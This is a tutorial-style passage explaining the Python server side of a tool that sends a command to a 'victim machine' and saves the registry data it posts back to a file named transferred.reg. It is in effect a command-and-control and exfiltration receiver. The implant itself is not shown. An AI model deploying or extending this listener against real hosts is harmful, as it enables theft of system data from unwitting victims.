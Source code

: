#### httpHandler Class

We define the **`httpHandler`** class that extends the built-in python module   
**`http.server.SimpleHTTPRequestHandler`**. This class allows us to handle incoming custom HTTP requests on our TCP server. It implements two functions: **`do_GET`** and **`do_POST`**.  

The **`do_GET`** sends a GET request to the victim machine and then accepts the response. Each function call organizes one section of the HTTP request.  

```python
#Function in httpHandler class
def do_GET(self):

  #Prompts user to prepare for request
  command = input("Connection Established.\n      \
  Press enter to get the registry of the host\n\n>") 

  #Sets HTTP status code 200 (OK)
  self.send_response(200) 

  #Sets content type to text
  self.send_header("Content-Type", "text/html") 
  self.end_headers() 

  #Writes command passed into file to be 
  #sent (encoded utf-16)
  self.wfile.write(bytes(command, "utf-16"))
```

The **`do_POST`** function handles post information from the client and processes the registry data from the user into a file.

```python

#Exists as instance function of handler class
def do_POST(self):

  #Send HTTP OK response
  self.send_response(200)

  #Signifies end of header
  self.end_headers()

  #Stores length of incoming message
  content_len = int(self.headers['Content-Length'])

  
  #Prints content length
  print("Content length: {}".format(content_len))

  #Writes incoming data into transferred.reg file
  with open("transferred.reg", "wb") as f:
    f.write(self.rfile.read(content_len))
```
